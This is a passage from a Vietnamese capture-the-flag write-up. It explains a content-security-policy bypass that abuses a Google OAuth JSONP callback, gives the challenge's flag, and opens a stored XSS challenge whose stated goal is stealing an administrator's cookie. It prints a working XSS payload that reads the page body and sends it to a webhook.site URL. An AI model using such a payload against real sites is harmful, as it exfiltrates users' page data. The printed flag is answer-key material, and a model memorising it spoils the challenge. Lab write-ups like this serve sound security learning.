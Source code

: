 - Đặt script mong  muốn của ta vào nội dung tham số callback => Ta đã có được source script để inject

```
<script src="https://accounts.google.com/o/oauth2/revoke?callback=function myFunction(){ var a = document.getElementsByTagName('body')[0].textContent; document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(a)}; setTimeout(myFunction, 2000)"></script>
```

- Giải thích Payload: tham số callback nhận giá trị là một function, nên em định nghĩa ra một function để thực hiện đọc nội dung tag ```<body>``` của response. Sau đó gửi nội dung đó tới webhook của mình. Lưu ý ở đây là vì thẻ script nằm phía trên phần nội dung có flag, nếu script được trigger ngay lúc đó sẽ không đọc được nội dung bên dưới. Vậy nên ta phải dùng hàm setTimeout để đợi trình duyệt render hết nội dung của html rồi mới thực hiện script.

- Result:

![1](img/22/Screenshot%20from%202023-01-31%2020-12-10.png)

```
Flag: CSP_4ND_JS0NP_ENDPOINT_B4D_ID3A
```

# 23. XSS - Stored - filter bypass

- Mục tiêu của challenge:  Ta phải inject một payload XSS để khi `Administrator` đọc nó thì ta sẽ thu được cookie của admin

![1](img/23/Screenshot%20from%202023-01-31%2020-27-19.png)
 ​
